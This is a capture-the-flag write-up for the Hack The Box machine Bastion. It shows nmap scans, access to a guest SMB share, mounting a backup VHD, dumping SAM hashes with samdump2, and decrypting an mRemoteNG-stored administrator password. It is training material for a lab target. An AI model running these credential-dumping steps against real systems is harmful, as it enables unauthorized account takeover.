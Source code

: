 ```yaml
---
title: Bastion Write up
date: 2024-01-24 11:00:00 -500
categories: [writeup]
tags: [hackthebox]
# TAGS should always be lowercase
---
```


# Welcome to my Bastard's Write-up 

## Recon

### Nmap


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -oA nmap/bastion 10.10.10.134</span></div>
<br> 


   
    Nmap scan report for 10.10.10.134
    Host is up (0.069s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT    STATE SERVICE      VERSION
    22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp open  msrpc        Microsoft Windows RPC
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    .
    .
    .
    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2023-06-13T18:00:17
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:00:19+02:00
    |_clock-skew: mean: -39m57s, deviation: 1h09m14s, median: 0s



><span style="color:green">All Ports Scan:</span>

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ nmap -p- -Pn -A -T4 10.10.10.134</span></div>
<br>

  
    Nmap scan report for 10.10.10.134
    Host is up (0.11s latency).
    Not shown: 65522 closed tcp ports (conn-refused)
    PORT      STATE SERVICE      VERSION
    22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -39m59s, deviation: 1h09m15s, median: 0s
    | smb2-time: 
    |   date: 2023-06-13T18:02:18
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:02:16+02:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)


### SMB

We will start by listing shares:

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient -L 10.10.10.134</span></div>
<br>   

![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(1).png)

We can see that there is an interesting share named "backups". Let's access it.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient //10.10.10.134/Backups -U "user"%" "</span></div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(2).png)

Download all files using "mget *".

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(3).png)

Seems like we have to mount it locally.

## Initial Foothold


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ mount -t cifs //10.10.10.134/backups /mnt -o user=user,password=</span></div>
<br>

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(4).png)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">Note : to install guestmount use the command: sudo apt install libguestfs-tools</span></div>
<br>

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(5).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/</span></div>
<br> 

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(6).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># cd /mnt2/Windows/System32/config</span></div>
<br>

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(7).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># samdump2 ./SYSTEM ./SAM</span></div>
<br>

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(8).png)





### Crack the hash

Let's crack the hash using : [https://crackstation.net/](https://crackstation.net/)

![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(9).png)


>L4mpje:Bureaulampje

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ssh L4mpje@10.10.10.134</span></div>
<br>

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(10).png)

## Privilege Escalation

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG</span></div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">dir</span></div>
<br>

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(11).png)

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">type confCons.xml</span></div>
<br> 

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(12).png)

We found the administrator's hash

To crack it we need to use mremoteng_decrypt : https://github.com/haseebT/mRemoteNG-Decrypt


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==</span></div>
<br>


![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(13).png)


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>ssh administrator@10.10.10.134</span></div>
<br> 

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(14).png)